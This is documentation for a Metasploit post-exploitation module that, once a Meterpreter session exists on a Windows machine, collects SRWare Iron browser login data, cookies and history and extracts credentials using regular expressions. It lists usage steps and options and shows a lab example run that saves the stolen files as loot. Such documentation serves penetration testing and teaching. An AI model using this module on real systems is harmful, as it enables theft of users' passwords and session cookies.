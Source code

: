 ## Module Description

This post-exploitation module gathers artifacts found on Srware related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/srware
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf6 post(windows/gather/credentials/srware) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Srware's parent folder found
[*] Srware's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Chromium\User Data\Default\Login Data
[*] Srware Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210521114418_default_192.168.56.106_srwareLoginData_139981.bin

[+] File with data saved:  /root/.msf4/loot/20210521114419_default_192.168.56.106_EXTRACTIONSLogin_290137.bin
[*] Srware's parent folder found
[*] Srware's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Chromium\User Data\Default\Cookies
[*] Srware Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210521114419_default_192.168.56.106_srwareCookies_321317.bin

[+] File with data saved:  /root/.msf4/loot/20210521114419_default_192.168.56.106_EXTRACTIONSCooki_375774.bin
[*] Srware's parent folder found
[*] Srware's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Chromium\User Data\Default\History
[*] Srware History downloaded
[+] File saved to:  /root/.msf4/loot/20210521114420_default_192.168.56.106_srwareHistory_849488.bin

[+] File with data saved:  /root/.msf4/loot/20210521114420_default_192.168.56.106_EXTRACTIONSHisto_063608.bin
[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```